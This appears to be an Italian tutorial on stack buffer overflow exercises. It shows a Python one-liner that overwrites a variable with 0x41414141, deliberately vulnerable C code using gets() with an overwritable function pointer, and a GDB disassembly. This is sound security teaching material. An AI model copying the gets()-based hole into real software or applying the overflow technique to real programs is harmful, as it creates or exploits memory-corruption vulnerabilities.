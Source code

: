 ```bash
python3 -c 'print("c"*36 + "AAAA")' | ./esercizio2_1
```

Output:

```
Ottimo! Hai modificato correttamente la variabile
```

Così abbiamo sovrascritto `topolino` con il valore desiderato `0x41414141`. L’analisi segue lo stesso principio dell’esercizio 2, ma qui la variabile `topolino` e le dimensioni del buffer differiscono.

# Esercizio 3 – Overflow per esecuzione non autorizzata

## Codice C

```c
void win() {
    printf("Hai modificato correttamente il flusso di esecuzione\n");
}

int main(int argc, char *argv[]) {
    int (*fp)();
    char buffer[X];

    fp = 0;
    gets(buffer);
    if (fp) {
        printf("Chiamo l'indirizzo della funzione, salto a 0x%08x\n", fp);
        fp();
    }
}
```

L’obiettivo è sovrascrivere il puntatore a funzione `fp` con l’indirizzo della funzione `win()`, in modo da modificare il flusso di esecuzione.

---

## Analisi con GDB

### Disassemblaggio di `main`

Eseguendo:

```gdb
(gdb) disass main
```

**Output di esempio**:

```
Dump of assembler code for function main:
   0x08048484 <+0>:  lea    0x4(%esp),%ecx
   0x08048488 <+4>:  and    $0xfffffff0,%esp
   0x0804848b <+7>:  pushl  -0x4(%ecx)
   0x0804848e <+10>: push   %ebp
   0x0804848f <+11>: mov    %esp,%ebp
-> 0x08048491 <+13>: push   %ecx
-> 0x08048492 <+14>: sub    $0x14,%esp
-> 0x08048495 <+17>: movl   $0x0,-0xc(%ebp)   ; fp = 0
   0x0804849c <+24>: sub    $0xc,%esp
-> 0x0804849f <+27>: lea    -0x16(%ebp),%eax ; buffer
   0x080484a2 <+30>: push   %eax
   0x080484a3 <+31>: call   0x8048330 <gets@plt>
```